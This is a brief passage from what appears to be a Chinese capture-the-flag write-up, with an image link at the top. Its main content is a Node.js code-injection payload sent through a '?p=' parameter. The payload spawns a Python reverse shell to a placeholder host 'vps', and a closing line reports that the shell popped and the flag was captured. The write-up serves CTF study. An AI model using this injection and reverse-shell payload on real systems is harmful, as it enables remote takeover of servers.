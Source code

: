 payload：

```
./?p=');process.mainModule.constructor._load('child_process').exec('python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\'vps\',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\'/bin/bash\',\'-i\']);"');_=('
```

成功弹到shell，获得flag

![image-20210803154137511](2021dfjk/image-20210803154137511.png)

---